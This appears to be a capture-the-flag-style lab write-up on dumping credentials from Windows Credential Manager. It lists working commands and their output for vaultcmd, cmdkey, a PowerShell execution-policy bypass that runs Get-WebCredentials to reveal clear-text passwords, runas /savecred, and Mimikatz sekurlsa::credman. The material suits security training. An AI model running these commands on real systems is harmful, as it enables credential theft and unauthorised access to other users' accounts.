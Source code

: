 # Windows Credential Manager

This task introduces the Windows Credential Manager and discusses techniques for dumping system credentials by exploiting it.

## What is Credential Manager?

Credential Manager is a Windows feature that stores logon-sensitive information for websites, applications, and networks. It contains login credentials such as usernames, passwords, and internet addresses. There are four credential categories:

- **Web credentials:** Authentication details stored in Internet browsers or other applications.
- **Windows credentials:** Windows authentication details, such as NTLM or Kerberos.
- **Generic credentials:** Basic authentication details, such as clear-text usernames and passwords.
- **Certificate-based credentials:** Authentication details based on certificates.

> **Note:** Authentication details are stored in the user's folder and are not shared among Windows user accounts. However, they are cached in memory.

---

## Accessing Credential Manager

You can access the Windows Credential Manager through the GUI (`Control Panel -> User Accounts -> Credential Manager`) or the command prompt. This guide focuses on the command prompt scenario.

---

## Using the Microsoft Credentials Manager (`vaultcmd`)

### Listing Available Vaults

```shell
C:\Users\Administrator>vaultcmd /list
Currently loaded vaults:
    Vault: Web Credentials
    Vault Guid: 4BF4C442-9B8A-41A0-B380-DD4A704DDB28
    Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

    Vault: Windows Credentials
    Vault Guid: 77BC582B-F0A6-4E15-4E80-61736B6F3B29
    Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault
```

By default, Windows has two vaults: one for Web and one for Windows machine credentials.

---

### Checking for Stored Credentials in "Web Credentials"

```shell
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
Vault Properties: Web Credentials
Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
Number of credentials: 1
Current protection method: DPAPI
```

---

### Listing Credential Details

```shell
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
Credentials in vault: Web Credentials

Credential schema: Windows Web Password Credential
Resource: internal-app.thm.red
Identity: THMUser Saved By: MSEdge
Hidden: No
Roaming: Yes
```

---

## Credential Dumping

The `VaultCmd` utility does not display passwords. To retrieve clear-text passwords, you can use PowerShell scripts such as `Get-WebCredentials.ps1`.

### Getting Clear-text Passwords from Web Credentials

```shell
C:\Users\Administrator>powershell -ex bypass
PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser   internal-app.thm.red Password!    {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
```

The output shows the username and password for accessing the internal application.

---

## RunAs

`RunAs` is a command-line tool that allows running Windows applications or tools under different user permissions. The `/savecred` argument saves the credentials in Windows Credential Manager, so subsequent executions as the same user do not require a password.

---

## Enumerating Stored Credentials with `cmdkey`

```shell
C:\Users\thm>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=thm\thm-local
    Type: Domain Password
    User: thm\thm-local
```

Stored credentials can be for other servers as well.

---

### Running CMD.exe as a User with `/savecred`

```shell
C:\Users\thm>runas /savecred /user:THM.red\thm-local cmd.exe
Attempting to start cmd.exe as user "THM.red\thm-local" ...
```

A new `cmd.exe` window opens. Run `whoami` to confirm the user context. You can now access files available to that user.

---

## Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is a tool that can dump clear-text passwords stored in Credential Manager from memory.

### Dumping Credentials with Mimikatz

```shell
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```

---

> The techniques discussed here can also be performed using other tools such as Empire, Metasploit, etc. Explore further to expand your knowledge.
